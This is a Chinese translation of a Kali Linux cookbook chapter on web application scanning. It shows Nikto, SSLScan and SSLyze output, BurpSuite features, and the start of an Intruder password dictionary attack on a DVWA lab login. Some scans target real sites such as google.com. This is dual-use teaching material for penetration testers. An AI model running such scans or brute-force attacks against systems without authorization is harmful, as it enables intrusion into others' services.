# 第七章 Web 应用扫描

> 作者：Justin Hutchens

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

近几年来，我们看到越来越多的媒体报导了大公司和政府的数据泄露。并且，随着公众对安全的意思逐渐增强，通过利用标准的周边服务来潜入组织的网络越来越困难。和这些服务相关的公开漏洞通常很快会打上补丁，不可能用于攻击。相反，Web 应用通常包含自定义代码，它们通常不会拥有和来自独立厂商的网络服务相同的安全审计。Web 应用通常是组织外围的脆弱点，因为如此，这些服务的适当扫描和评估相当重要。

在详细讲解每个秘籍之前，我们会讨论一些关于 BurpSuite 和 sqlmap 的常见信息，因为这些工具在贯穿本章的多个秘籍中都相当重要。BurpSuite 是 Kali 自带的基于 Java 的图形化工具，用于记录、拦截和操作客户端浏览器和远程 Web 服务之间的请求和响应。它可能是用于 Web 应用渗透测试的最强大的工具之一，因为让攻击者能够完全控制如何和远程 Web 服务器通信。它可以操作大量事先在用户浏览器或会话中定义好的信息。sqlmap 是 Kali 中的继承命令行工具，它通过自动化整个流程，极大降低利用 SQL 注入漏洞所需的精力。sqlmap 的工作方式是提交来自已知 SQL 注入查询的大量列表的请求。它在数年间已经高度优化，可以基于之前请求的响应来智能尝试注入。

## 7.1 使用 Nikto 扫描 Web 应用

Nikto 是 Kali 中的命令行工具，用于评估 Web 应用的已知安全问题。Nikto 爬取目标站点并生成大量预先准备的请求，尝试识别应用中存在的危险脚本和文件。这个秘籍中，我们会讨论如何针对 Web 应用执行 Nikto，以及如何解释结果。

### 准备

为了使用 Nikto 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

### 操作步骤

和执行 Nikto 相关的复杂语法和用法，很大程度上取决于目标应用的本质。为了查看用法和语法的概览，使用`nikto -help`命令。在所提供的第一个例子中，我们对`google.com`进行扫描。`-host`参数可以用于指定需要扫描的目标的主机名称。`-port`选项定义了 Web 服务所运行的端口。`-ssl`选项告诉 Nikto 在扫描之前，与目标服务器建立 SSL/TLS 会话。

```
root@KaliLinux:~# nikto -host google.com -port 443 -ssl 
- Nikto v2.1.4 
-------------------------------------------------------------------------
+ Target IP:          74.125.229.161 
+ Target Hostname:    google.com 
+ Target Port:        443 
-------------------------------------------------------------------------
+ SSL Info:        Subject: /C=US/ST=California/L=Mountain View/O=Google Inc/CN=*.google.com
                   Ciphers: ECDHE-RSA-AES128-GCM-SHA256                   
                   Issuer:  /C=US/O=Google Inc/CN=Google Internet Authority G2 
+ Start Time:         2014-03-30 02:30:10 
-------------------------------------------------------------------------
+ Server: gws 
+ Root page / redirects to: https://www.google.com/ 
+ Server banner has changed from gws to GFE/2.0, this may suggest a WAF or load balancer is in place 
                                  ** {TRUNCATED} **
```

作为替代，`-host`参数可以用于定义目标系统的 IP 地址。`-nossl`参数可以用于告诉 Nikto 不要使用任何传输层的安全。`-vhost`选项用于指定 HTTP 请求中的主机协议头的值。在多个虚拟主机名称托管在单个 IP 地址上的时候，这非常有用。看看下面的例子：

```
root@KaliLinux:~# nikto -host 83.166.169.228 -port 80 -nossl -vhost packtpub.com 
- Nikto v2.1.4
-------------------------------------------------------------------------
+ Target IP:          83.166.169.228 
+ Target Hostname:    packtpub.com 
+ Target Port:        80 
+ Start Time:         2014-03-30 02:40:29 
-------------------------------------------------------------------------
+ Server: Varnish 
+ Root page / redirects to: http://www.packtpub.com/ 
+ No CGI Directories found (use '-C all' to force check all possible dirs) 
+ OSVDB-5737: WebLogic may reveal its internal IP or hostname in the Location header. The value is "http://www.packtpub.com." 
```

在上面的例子中，Nikto 对 Metasploitable2 系统上托管的 Web 服务执行了扫描。`-port`参数没有使用，因为 Web 服务托管到 TCP 80 端口上，这是 HTTP 的默认端口。此外，`-nossl`参数也没有使用，因为通常 Nikto 不会尝试 80 端口上的 SSL/TLS 连接。考虑下面的例子：

```
root@KaliLinux:~# nikto -host 172.16.36.135 
- Nikto v2.1.4 
-------------------------------------------------------------------------
+ Target IP:          172.16.36.135 
+ Target Hostname:    172.16.36.135 
+ Target Port:        80 
+ Start Time:         2014-03-29 23:54:28 
-------------------------------------------------------------------------
+ Server: Apache/2.2.8 (Ubuntu) DAV/2 
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.10 
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.2.17). Apache 1.3.42 (final release) and 2.0.64 are also current. 
+ DEBUG HTTP verb may show server debugging information. See http://msdn. microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details. 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3233: /phpinfo.php: Contains PHP configuration information 
+ OSVDB-3268: /doc/: Directory indexing found. 
+ OSVDB-48: /doc/: The /doc/ directory is browsable. This may be /usr/ doc. 
+ OSVDB-12184: /index.php?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings. 
+ OSVDB-3092: /phpMyAdmin/: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts. 
+ OSVDB-3268: /test/: Directory indexing found. 
+ OSVDB-3092: /test/: This might be interesting... 
+ OSVDB-3268: /icons/: Directory indexing found. 
+ OSVDB-3233: /icons/README: Apache default file found. 
+ 6448 items checked: 1 error(s) and 13 item(s) reported on remote host 
+ End Time:           2014-03-29 23:55:00 (32 seconds) 
-------------------------------------------------------------------------
+ 1 host(s) tested
```

Nikto 的 Metasploitable2 扫描结果展示了一些经常被 Nikto 识别的项目。这些项目包括危险的 HTTP 方法，默认的安装文件，暴露的目录列表，敏感信息，以及应该被限制访问的文件。注意这些文件通常对于获取服务器访问以及寻找服务器漏洞很有帮助。

### 工作原理

Nikto 识别潜在的可疑文件，通过引用`robots.txt`，爬取网站页面，以及遍历包含敏感信息、漏洞内容，或者由于内容的本质或所表现的功能而应该被限制的已知文件列表。

## 7.2 使用 SSLScan 扫描 SSL/TLS

SSLScan 是 Kali 中的集成命令行工具，用于评估远程 Web 服务的 SSL/TLS 的安全性。这个秘籍中，我们会讨论如何对 Web 应用执行 SSLScan，以及如何解释或操作输出结果。

### 准备

为了使用 SSLScan 对目标执行 SSL/TLS 分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

### 操作步骤

SSLScan 是个高效的工具，用于对目标 Web 服务执行精简的 SSL/TLS 配置分析。为了对带有域名 Web 服务执行基本的扫描，只需要将域名作为参数传递给它，就像这样：

```
root@KaliLinux:~# sslscan google.com
                   _
           ___ ___| |___  ___ __ _ _ __ 
          / __/ __| / __|/ __/ _` | '_ \
          \__ \__ \ \__ \ (_| (_| | | | |
          |___/___/_|___/\___\__,_|_| |_|
                  
                  Version 1.8.2
            http://www.titania.co.uk
       Copyright Ian Ventura-Whiting 2009
       
Testing SSL server google.com on port 443  
  Supported Server Cipher(s):    
    Failed    SSLv3  256 bits  ECDHE-RSA-AES256-GCM-SHA384    
    Failed    SSLv3  256 bits  ECDHE-ECDSA-AES256-GCM-SHA384    
    Failed    SSLv3  256 bits  ECDHE-RSA-AES256-SHA384    
    Failed    SSLv3  256 bits  ECDHE-ECDSA-AES256-SHA384    
    Accepted  SSLv3  256 bits  ECDHE-RSA-AES256-SHA    
    Rejected  SSLv3  256 bits  ECDHE-ECDSA-AES256-SHA    
    Rejected  SSLv3  256 bits  SRP-DSS-AES-256-CBC-SHA    
    Rejected  SSLv3  256 bits  SRP-RSA-AES-256-CBC-SHA    
    Failed    SSLv3  256 bits  DHE-DSS-AES256-GCM-SHA384    
    Failed    SSLv3  256 bits  DHE-RSA-AES256-GCM-SHA384
    Failed    SSLv3  256 bits  DHE-RSA-AES256-SHA256    
    Failed    SSLv3  256 bits  DHE-DSS-AES256-SHA256    
    Rejected  SSLv3  256 bits  DHE-RSA-AES256-SHA    
    Rejected  SSLv3  256 bits  DHE-DSS-AES256-SHA    
    Rejected  SSLv3  256 bits  DHE-RSA-CAMELLIA256-SHA    
    Rejected  SSLv3  256 bits  DHE-DSS-CAMELLIA256-SHA 
                            ** {TRUNCATED} **
```

在执行时，SSLScan 会快速遍历目标服务器的连接，并且枚举所接受的密文，首选的密文族，以及 SSL 证书信息。可以用`grep`在输出中寻找所需信息。在下面的例子中，`grep`仅仅用于查看接受的密文。

```
root@KaliLinux:~# sslscan google.com | grep Accepted    
    Accepted  SSLv3  256 bits  ECDHE-RSA-AES256-SHA    
    Accepted  SSLv3  256 bits  AES256-SHA    
    Accepted  SSLv3  168 bits  ECDHE-RSA-DES-CBC3-SHA    
    Accepted  SSLv3  168 bits  DES-CBC3-SHA    
    Accepted  SSLv3  128 bits  ECDHE-RSA-AES128-SHA    
    Accepted  SSLv3  128 bits  AES128-SHA    
    Accepted  SSLv3  128 bits  ECDHE-RSA-RC4-SHA    
    Accepted  SSLv3  128 bits  RC4-SHA    
    Accepted  SSLv3  128 bits  RC4-MD5    
    Accepted  TLSv1  256 bits  ECDHE-RSA-AES256-SHA    
    Accepted  TLSv1  256 bits  AES256-SHA    
    Accepted  TLSv1  168 bits  ECDHE-RSA-DES-CBC3-SHA    
    Accepted  TLSv1  168 bits  DES-CBC3-SHA    
    Accepted  TLSv1  128 bits  ECDHE-RSA-AES128-SHA    
    Accepted  TLSv1  128 bits  AES128-SHA    
    Accepted  TLSv1  128 bits  ECDHE-RSA-RC4-SHA    
    Accepted  TLSv1  128 bits  RC4-SHA    
    Accepted  TLSv1  128 bits  RC4-MD5 
```

多个`grep`函数可以进一步过滤输出。通过使用多个`grep`管道请求，下面例子中的输出限制为 256 位密文，它可以被服务器接受。

```
root@KaliLinux:~# sslscan google.com | grep Accepted | grep "256 bits"    
    Accepted  SSLv3  256 bits  ECDHE-RSA-AES256-SHA    
    Accepted  SSLv3  256 bits  AES256-SHA
    Accepted  TLSv1  256 bits  ECDHE-RSA-AES256-SHA    
    Accepted  TLSv1  256 bits  AES256-SHA
```

SSLScan 提供的一个独特的功能就是 SMTP 中的`STARTTLS `请求的实现。这允许 SSLScan 轻易并高效地测试邮件服务的传输安全层，通过使用`--starttls `参数并随后指定目标 IP 地址和端口。下面的例子中，我们使用 SSLScan 来判断 Metasploitable2 所集成的 SMTP 服务是否支持任何脆弱的 40 位密文：

```
root@KaliLinux:~# sslscan --starttls 172.16.36.135:25 | grep Accepted | grep "40 bits"    
    Accepted  TLSv1  40 bits   EXP-EDH-RSA-DES-CBC-SHA    
    Accepted  TLSv1  40 bits   EXP-ADH-DES-CBC-SHA    
    Accepted  TLSv1  40 bits   EXP-DES-CBC-SHA    
    Accepted  TLSv1  40 bits   EXP-RC2-CBC-MD5    
    Accepted  TLSv1  40 bits   EXP-ADH-RC4-MD5    
    Accepted  TLSv1  40 bits   EXP-RC4-MD5
```

### 工作原理

SSL/TLS 会话通常通过客户端和服务端之间的协商来建立。这些协商会考虑到每一端配置的密文首选项，并且尝试判断双方都支持的最安全的方案。SSLScan 的原理是遍历已知密文和密钥长度的列表，并尝试使用每个配置来和远程服务器协商会话。这允许 SSLScan 枚举受支持的密文和密钥。

## 7.3 使用 SSLyze 扫描 SSL/TLS

SSLyze 是 Kali 中的集成命令行工具，用于评估远程 Web 服务的 SSL/TLS 的安全性。这个秘籍中，我们会讨论如何对 Web 应用执行 SSLyze，以及如何解释或操作输出结果。

### 准备

为了使用 SSLScan 对目标执行 SSL/TLS 分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

### 操作步骤

另一个用于对 SSL/TLS 配置执行彻底排查和分析的工具就是 SSLyze。为了使用 SSLyze 执行基本的测试，需要包含目标服务器作为参数，以及`--regular`参数。这包括 SSLv2、SSLv3、TLSv1、renegotiation、resumption、证书信息、HTTP GET 响应状态码，以及压缩支持的测试。

```
root@KaliLinux:~# sslyze google.com --regular

 REGISTERING AVAILABLE PLUGINS 
 ----------------------------

 PluginSessionResumption  
 PluginCertInfo  
 PluginOpenSSLCipherSuites  
 PluginSessionRenegotiation  
 PluginCompression

 CHECKING HOST(S) AVAILABILITY 
 ----------------------------
 
   google.com:443                      => 74.125.226.166:443
   
 SCAN RESULTS FOR GOOGLE.COM:443 - 74.125.226.166:443 ---------------------------------------------------
 
  * Compression :
        Compression Support:      Disabled
        
  * Certificate :      
      Validation w/ Mozilla's CA Store:  Certificate is Trusted                   
      Hostname Validation:               OK - Subject Alternative Name Matches      
      SHA1 Fingerprint:                  EF8845009EED2B2FE95D23318C8CF30F1052B596
      Common Name:                       *.google.com                             
      Issuer:                            /C=US/O=Google Inc/CN=Google Internet Authority G2      Serial 
      Number:                     5E0EFAF2A99854BD                         Not 
      Before:                        Mar 12 09:53:40 2014 GMT                 
      Not After:                         Jun 10 00:00:00 2014 GMT                 
      Signature Algorithm:               sha1WithRSAEncryption                    
      Key Size:                          2048                                     
      X509v3 Subject Alternative Name:   DNS:*.google.com, DNS:*. android.com, DNS:*.appengine.google.com, DNS:*.cloud.google.com, DNS:*. google-analytics.com, DNS:*.google.ca, DNS:*.google.cl, DNS:*.google. co.in, DNS:*.google.co.jp, DNS:*.google.co.uk, DNS:*.google.com.ar, DNS:*.google.com.au, DNS:*.google.com.br, DNS:*.google.com.co, DNS:*. google.com.mx, DNS:*.google.com.tr, DNS:*.google.com.vn, DNS:*.google. de, DNS:*.google.es, DNS:*.google.fr, DNS:*.google.hu, DNS:*.google. it, DNS:*.google.nl, DNS:*.google.pl, DNS:*.google.pt, DNS:*.googleapis. cn, DNS:*.googlecommerce.com, DNS:*.googlevideo.com, DNS:*.gstatic.com, DNS:*.gvt1.com, DNS:*.urchin.com, DNS:*.url.google.com, DNS:*.youtubenocookie.com, DNS:*.youtube.com, DNS:*.youtubeeducation.com, DNS:*.ytimg. com, DNS:android.com, DNS:g.co, DNS:goo.gl, DNS:google-analytics.com, DNS:google.com, DNS:googlecommerce.com, DNS:urchin.com, DNS:youtu.be, DNS:youtube.com, DNS:youtubeeducation.com 
                                  ** {TRUNCATED} **
```

作为替代，TLS 或者 SSL 的单个版本可以被测试来枚举和版本相关的所支持的密文。下面的例子中，SSLyze 用于枚举受 TLSv1.2 支持的密文，之后使用`grep`来提取出 256 位的密文。

```
root@KaliLinux:~# sslyze google.com --tlsv1_2 | grep "256 bits"        
    ECDHE-RSA-AES256-SHA384  256 bits                                                 
    ECDHE-RSA-AES256-SHA     256 bits                                                 
    ECDHE-RSA-AES256-GCM-SHA384256 bits                                                 
    AES256-SHA256            256 bits                                                 
    AES256-SHA               256 bits                                                 
    AES256-GCM-SHA384        256 bits
```

SSLyze 支持的一个非常拥有的特性是 Zlib 压缩的测试。如果开启了压缩，会直接关系到信息列楼漏洞，被称为`Compression Ratio Info-leak Made Easy`（CRIME）。这个测试可以使用`--comprision`参数来执行：

```
root@KaliLinux:~# sslyze google.com --compression
 
 CHECKING HOST(S) AVAILABILITY
 ----------------------------
   
   google.com:443                      => 173.194.43.40:443
 
 SCAN RESULTS FOR GOOGLE.COM:443 - 173.194.43.40:443 --------------------------------------------------
  
  * Compression :        Compression Support:      Disabled 
                                             ** {TRUNCATED} **
```

### 工作原理

SSL/TLS 会话通常通过客户端和服务端之间的协商来建立。这些协商会考虑到每一端配置的密文首选项，并且尝试判断双方都支持的最安全的方案。SSLyze 的原理是遍历已知密文和密钥长度的列表，并尝试使用每个配置来和远程服务器协商会话。这允许 SSLyze 枚举受支持的密文和密钥。

## 7.4 使用 BurpSuite 确定 Web 应用目标

在执行渗透测试的时候，确保你的攻击仅仅针对目标系统非常重要。针对额外目标的攻击可能导致法律问题。为了使损失最小，在 Burp Suite 中确定你的范围十分重要。这个秘籍中，我们会讨论如何使用 BurpSuite 确定范围内的目标。

### 准备

为了使用 BurpSuite 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，你的 Web 浏览器需要配置来通过 BurpSuite 本地实例代理 Web 流量。关于将 BurpSuite 用作浏览器代理的更多信息，请参考第一章的“配置 BurpSuite”一节。

### 操作步骤

BurpSuite 的最左边的标签页就是`Target`。这个标签页的底下有两个标签页，包括`Site Map`和`Scope`。在通过设置代理的 Web 浏览器访问时，`SiteMap`标签页会自动填充。`Scope`标签页允许用户配置站点和其内容，来包含或者排除站点。为了向评估范围内添加新的站点，点击`Include in Scope`表格下的`Add`按钮。像这样：



所添加的内容通常是 IP 地址范围，或者由单独的文件指定。`Protocal`选项会显示下拉菜单，包含 ANY、HTTP、HTTPS。`Host or IP range`字段可以包含单个主机名称，单个 IP，或者 IP 范围。此外，也存在`Port`和`File`的文本字段。字段可以留空，或者用于指定范围。字段应该使用正则表达式来填充。在所提供的例子中，脱字符（`^`）是正则表达式的开始，美元符号用于闭合正则表达式，反斜杠用于转移特殊字符`.`，它用于分隔 IP 地址的段。正则表达式的用法并不在本书的范围内，但是许多互联网上的开放资源都解释了它们的用法。你可以访问`http://www.regularexpressions.info/`来熟悉一下正则表达式。

### 工作原理

正则表达式在逻辑上定义条件，通过指定主机、端口或范围中包含的文件。定义评估范围会影响它在和 Web 内容交互时的操作方式。BurpSuite 配置定义了可以执行什么操作，它们位于范围内，以及什么不能执行，它们在范围之外。

## 7.5 使用 BurpSuite 蜘蛛

为了有效供给 Web 应用，了解服务器上所托管的 Web 内容非常重要。可以使用做种技巧来探索 Web 应用的整个攻击面。蜘蛛工具可以用于快速识别 Web 应用中引用的链接内容。这个秘籍中，我们会谈论如何使用 BurpSuite 爬取 Web 应用来识别范围内的内容。

### 准备

为了使用 BurpSuite 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，你的 Web 浏览器需要配置来通过 BurpSuite 本地实例代理 Web 流量。关于将 BurpSuite 用作浏览器代理的更多信息，请参考第一章的“配置 BurpSuite”一节。

### 操作步骤

为了自动化爬取之前定义的范围内的内容，点击屏幕顶端的`Spider`标签页。下面会有两个额外的标签页，包括`Control`和`Options`。`Options`标签页允许用户配置蜘蛛如何指定。这包括详细设置、深度、限制、表单提交以及其它。考虑自动化蜘蛛的配置非常重要，因为它会向范围内的所有 Web 内容发送请求。这可能会破坏甚至是损坏一些 Web 内容。一旦拍治好了，`Control`标签页可以用于选择开始自动化爬取。通常，`Spider`标签页是暂停的，点击按钮可以启动蜘蛛。`Target`标签页下面的`Site Map`标签页会在蜘蛛爬取过程中自动更新。像这样：



取决于所定义的配置，对于任何爬取过程中碰到的表单，BurpSuite 会请求你的反应。输入表单需要的参数，或者通过`Ignore Form`按钮来跳过表单，像这样：


作为替代，你可以通过右击`Site Map`标签页中的爬取特定位置，之后点击`Spider`，从特定位置开始爬取。这会递归爬取所选对象以及所包含的任何文件或目录。像这样：



### 工作原理

BurpSuite 蜘蛛工具的工作原理是解析所有已知的 HTML 内容，并提取指向其它内容的链接。链接内容随后会用于分析所包含的其它链接内容。这个过程会无限继续下去，并只由可用的链接内容总数，指定的深度，以及处理额外请求的当前线程数量所限制。

## 7.6 使用 BurpSuite 参与工具

BurpSuite 也拥有可以用于基本的信息收集和目标分析的工具。这些工具叫做参与工具。这个秘籍中，我们会谈论如何使用这些 BurpSuite 中补充的参与工具来收集或组织目标的信息。

### 准备

为了使用 BurpSuite 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，你的 Web 浏览器需要配置来通过 BurpSuite 本地实例代理 Web 流量。关于将 BurpSuite 用作浏览器代理的更多信息，请参考第一章的“配置 BurpSuite”一节。

### 操作步骤

参与工具可以通过邮寄站点地图中的任何对象，之后下拉扩展惨淡并选择所需工具来访问。通常，所选的参与工具会递归定位所选目标，来包含所有文件和目录。像这样：



我们会以每个工具出现在菜单中的顺序来着重讲解它们。出于组织原因，我认为最好在下列重点中介绍它们：

+   `Search`（搜索）：这个工具可用于搜索术语、短语和正则表达式。它会返回任何包含查询术语的 HTTP 请求或响应。对于每个返回的项目，所查询的术语会高亮显示。

+   `Find comments`（发现注释）：这个工具在所有 JS、HTML 和其它源代码中搜索，浏览指定的 Web 内容并定位所有注释。这些只是可以导出便于之后复查。这有时候特别有用，因为开发者经常会在注释中留下敏感信息。

+   `Find scripts`（发现脚本）：这个工具会识别 Web 内容中的任何客户端和服务端的脚本。

+   `Find reference`（发现引用）：这个工具会解析所有 HTML 内容并识别其它的被引用内容。

+   `Analyse target`（分析目标）：这个工具会识别所有动态内容，静态内容和指定 Web 内容所带的参数。这在组织 Web 应用测试，并且应用带有大量的参数和动态内容时，十分有用。

+   `Discover content`（探索内容）：这个工具可以用于爆破目录和文件名，通过循环遍历单词列表和已知的文件扩展名列表。

+   `Schedule task`（计划任务）：这个工具允许用户定义时间和日期，在 BurpSuite 中开始和停止多种任务。

+   `Simulate manual testing`（模拟手动访问）：这个工具是一个不错的方式，就像是你在执行 Web 站点的手动分析那样，而你实际上可以去喝咖啡和吃甜甜圈。这个工具其实没有什么实际功能，主要是迷惑你的老板。

### 工作原理

BurpSuite 参与工具以多种方式工作，取决于所使用的工具。许多参与工具执行功能搜索，并检测已收到的响应中的特定信息。`Discover content `工具通过循环遍历定义好的列表，爆破文件和目录名称，提供了探索新的 Web 内容的功能。

## 7.7 使用 BurpSuite Web 代理

虽然它有许多可用工具，BurpSuite 的主要功能就是拦截代理。这就是说，BurpSuite 拥有捕获请求和响应的功能，以及随后操作它们来将其转发到目的地。这个秘籍中，我们会讨论如何使用 BurpSuite 拦截或记录请求。

### 准备

为了使用 BurpSuite 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，你的 Web 浏览器需要配置来通过 BurpSuite 本地实例代理 Web 流量。关于将 BurpSuite 用作浏览器代理的更多信息，请参考第一章的“配置 BurpSuite”一节。

### 操作步骤

BurpSuite 的功能可以以被动或拦截模式使用。如果禁用了拦截器，所有请求和响应都会简单记录到`HTTP History`（HTTP 历史）标签页中。可以从列表中选择它们，来浏览它们或查看任何请求或响应的细节，像这样：



作为替代，`Intercept`（拦截器）按钮可以按下来捕获发送过程中的流量。这些请求可以在`Proxy`标签页中操作，之后会转发到目的地，或者丢弃。通过选择`Opyions`标签页，拦截器代理可以重新配置来定义所拦截的请求类型，或者甚至在响应到达浏览器之前拦截它们，像这样：



### 工作原理

BurpSuite 代理可以拦截或被动记录浏览器接受或发送的流量，因为它逻辑上配置在浏览器和任何远程设置之间。浏览器被配置来将所有请求发送给 Burp 的代理，之后代理会将它们转发给任何外部主机。由于这个配置，Burp 就可以捕获两边的发送中的请求和响应，或者记录所有发往或来自客户端浏览器的通信。

## 7.8 使用 BurpSuite Web 应用扫描器

BurpSuite 可以用作高效的 Web 应用漏洞扫描器。这个特性可以用于执行被动分析和主动扫描。这个秘籍中，我们会谈论如何使用 BurpSuite 执行被动和主动漏洞扫描。

### 准备

为了使用 BurpSuite 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，你的 Web 浏览器需要配置来通过 BurpSuite 本地实例代理 Web 流量。关于将 BurpSuite 用作浏览器代理的更多信息，请参考第一章的“配置 BurpSuite”一节。

### 操作步骤

通常，BurpSuite 会被动扫描所有范围内的 Web 内容，它们通过浏览器在连接代理时范围。术语“被动扫描”用于指代 BurpSuite被动观察来自或发往服务器的请求和响应，并检测内容中的任何漏洞标识。被动扫描不涉及任何注入或探针，或者其他确认可疑漏洞的尝试。



主动扫描可以通过右键点击任何站点地图中的对象，或者任何 HTTP 代理历史中的请求，并且选择`Actively scan this branch`，或者` Do an  active scan`，像这样：



所有主动扫描的结果可以通过选择`Scanner`下方的`Scan queue`标签页来复查。通过双击任何特定的扫描项目，你可以复查特定的发现，因为它们属于该扫描，像这样：



主动扫描可以通过选择`Options `标签页来配置。这里，你可以定义要执行的扫描类型，扫描速度，以及扫描的彻底性。

### 工作原理

BurpSuite 的被动扫描器的工作原理是仅仅评估经过它的流量，这些流量在浏览器和任何远程服务器之间通信。这在识别一些非常明显的漏洞时非常有用，但是不足以验证许多存在于服务器中的更加严重的漏洞。主动扫描器的原理是发送一系列探针给请求中识别的参数。这些探针可以用于识别许多常见的 Web 应用漏洞，例如目录遍历、XSS 和 SQL 注入。

## 7.9 使用 BurpSuite Intruder（干扰器）

BurpSuite 中的另一个非常有用的工具就是 Intruder。这个工具通过提交大量请求来执行快节奏的攻击，同时操作请求中预定义的载荷位置。我们会使用 BurpSuite Intruder 来讨论如何自动化请求内容的操作。

### 准备

为了使用 BurpSuite 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，你的 Web 浏览器需要配置来通过 BurpSuite 本地实例代理 Web 流量。关于将 BurpSuite 用作浏览器代理的更多信息，请参考第一章的“配置 BurpSuite”一节。

### 操作步骤

为了使用 BurpSuite Intruder，需要通过拦截捕获或者代理历史向其发送请求。完成之后，右击请求并选择`Send to Intruder`，像这样：



在下面的例子中，DVWA` Brute Force`应用的登录入口中输入了用户名和密码。在发往 Intruder 之后，可以使用`Positions`标签页来设置载荷。为了尝试爆破管理员密码，需要设置的载荷位置只有`password`参数，像这样：



一旦载荷位置定义好了，被注入的载荷可以在`Payloads`标签页中配置。为了执行字典攻击，我们可以使用自定义或内建的字典列表。这个例子中，内建的`Passwords`列表用于这次攻击，像这样：、

